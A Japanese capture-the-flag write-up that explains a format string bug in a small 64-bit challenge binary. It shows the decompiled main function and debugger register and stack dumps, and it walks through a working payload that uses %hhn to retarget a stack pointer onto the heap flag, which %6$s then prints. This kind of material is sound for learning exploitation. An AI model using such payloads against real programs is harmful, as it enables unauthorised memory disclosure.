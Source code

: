 このwriteupはこちら[https://hackmd.io/@yqroo/ictf2023#Form]を参考にしました。

```
$ file vuln
vuln: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, [略], not stripped

$ pwn checksec vuln
Arch:     amd64-64-little
RELRO:    Full RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      PIE enabled
```

ghidraで見てみると問題文通りformat stingのエラーがある。

```
void main(void)
{
  size_t length;
  long in_FS_OFFSET;
  char *format_string;
  char **fp_buf;
  FILE *fp;
  undefined8 canary;
  
  canary = *(undefined8 *)(in_FS_OFFSET + 0x28);
  fp_buf = (char **)malloc(0x20);
  format_string = (char *)malloc(0x20);
  setbuf(stdin,(char *)0x0);
  setbuf(stdout,(char *)0x0);
  fp = fopen("flag.txt","r");
  fgets((char *)fp_buf,0x20,fp);
  fgets(format_string,0x20,stdin);
  fp_buf = &format_string;
  length = strlen((char *)fp_buf);
  if (length < 0x18) {
    printf(format_string);
  }
                    /* WARNING: Subroutine does not return */
  _exit(0);
}
```

長さは24まで。exitで終了しているのでfini_arrayの書き換えで何回もとはいかない。またフラグはmallocで確保されているので、書き換える位置を考える必要がある。
printf実行前のスタックとレジスタは以下の通り(思いっきり答え書いちゃってた)。

```
$rax   : 0x0
$rbx   : 0x0
$rcx   : 0x007f468ae36992  →  0x5677fffff0003d48 ("H="?)
$rdx   : 0x007ffe711a4260  →  0x0055da3ff8e2d0  →  "%c%c%c%c%c%155c%hhn%6$s\n"
$rsp   : 0x007ffe711a4260  →  0x0055da3ff8e2d0  →  "%c%c%c%c%c%155c%hhn%6$s\n"
$rbp   : 0x007ffe711a4280  →  0x0000000000000001
$rsi   : 0x007f468af3bb23  →  0xf3da80000000000a ("\n"?)
$rdi   : 0x0055da3ff8e2d0  →  "%c%c%c%c%c%155c%hhn%6$s\n"
$rip   : 0x0055da3fd742d8  →  <main+207> call 0x55da3fd740e0 <printf@plt>
$r8    : 0x0
$r9    : 0x0
$r10   : 0x77
$r11   : 0x246
$r12   : 0x007ffe711a4398  →  0x007ffe711a6492  →  0x53006e6c75762f2e ("./vuln"?)
$r13   : 0x0055da3fd74209  →  <main+0> endbr64
$r14   : 0x0055da3fd76d90  →  0x0055da3fd741c0  →  <__do_global_dtors_aux+0> endbr64
$r15   : 0x007f468af93040  →  0x007f468af942e0  →  0x0055da3fd73000  →   jg 0x55da3fd73047
$eflags: [zero CARRY parity ADJUST SIGN trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x33 $ss: 0x2b $ds: 0x00 $es: 0x00 $fs: 0x00 $gs: 0x00
───── stack ────
0x007ffe711a4260│+0x0000: 0x0055da3ff8e2d0  →  "%c%c%c%c%c%155c%hhn%6$s\n"       ← $rdx, $rsp
0x007ffe711a4268│+0x0008: 0x007ffe711a4260  →  0x0055da3ff8e2d0  →  "%c%c%c%c%c%155c%hhn%6$s\n"
0x007ffe711a4270│+0x0010: 0x0055da3ff8e300  →  0x00000000fbad2488
0x007ffe711a4278│+0x0018: 0x890db47e39d20300

gef➤  search-pattern flag{
[+] Searching 'flag{' in memory
[+] In '[heap]'(0x55da3ff8e000-0x55da3ffaf000), permission=rw-
  0x55da3ff8e2a0 - 0x55da3ff8e2b9  →   "flag{this_is_test_flag}\n"
```

フラグのアドレスとformatを書き込んだアドレスは1byte分しか変わらない(mallocで確保したサイズが小さいので当然だけど)。つまりスタックにあるアドレス(64bitでいうと6番目の引数)下位1byteを0xa0に書き換えてやればいい。

この問題をやるまで知らなかったが、書き込める指定子は%nだけではないらしく
・%hn  2byte
・%hhn 1byte
といったものもある。これを利用して0xa0に書き込み、%6$sでフラグを表示させる。


## Tips
ここで自分用におさらいとして書くが、format_stringは32bitと64bitは表示される順番が異なる(正確に言うと呼び出し規約に依るかもしれない)。
例えば%x.%x.%x.%x.%xの場合
・32bit(cdecl)    各引数に対応したスタックの中身が表示される
・64bit(fastcall) 各引数に対応したレジスタが表示された後、スタックの中身

